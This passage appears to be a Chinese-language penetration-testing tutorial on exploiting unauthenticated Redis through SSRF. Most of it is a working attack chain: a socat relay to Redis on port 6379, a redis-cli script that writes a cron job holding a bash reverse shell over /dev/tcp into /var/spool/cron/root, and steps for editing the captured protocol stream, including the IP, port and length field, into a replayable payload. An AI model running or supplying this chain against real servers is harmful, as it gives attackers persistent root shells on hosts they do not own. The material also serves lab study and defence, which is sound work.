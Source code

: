 ```
socat -v tcp-listen:4444,fork tcp-connect:localhost:6379
```



在攻击机中连接靶机的4444端口，重新发送攻击payload

这里先将要执行的命令写入了shell.sh中，方便一次性执行完毕

```
echo -e "\n\n\n*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1\n\n\n"|redis-cli -h $1 -p $2 -x set 1
redis-cli -h $1 -p $2 config set dir /var/spool/cron/
redis-cli -h $1 -p $2 config set dbfilename root
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit
```

然后在把靶机中执行

```
./shell.sh 192.168.85.132 4444
```

返回五个OK就表示执行成功了

然后就能看到靶机中接受到的数据流了

![](redis未授权访问与ssrf利用\6.png)

然后将这些数据流复制下来，需要将数据流中的`127.0.0.1/2333`转化成所需要的ip地址和端口

同时需要修改`$61\r`中的61数字，表示数据的长度

如我这里需要改成`192.168.85.128/23333`比原先多了6个字符串就是`$67\r`
